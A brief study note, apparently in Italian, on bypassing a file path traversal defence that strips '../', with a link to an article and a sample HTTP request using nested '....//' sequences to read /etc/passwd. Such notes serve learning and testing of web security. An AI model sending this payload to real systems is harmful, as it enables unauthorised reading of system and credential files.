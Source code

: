 
#websecurity #webexploitation 

https://kadalonsecurity.medium.com/using-nested-traversal-sequences-to-bypass-file-path-traversal-defense-3982feb4e60b

il codice strippa `../`, per cui di fatto `....//` ri-diventa `../`

```
GET /image?filename=....//....//....//....//....//etc/passwd HTTP/2
```

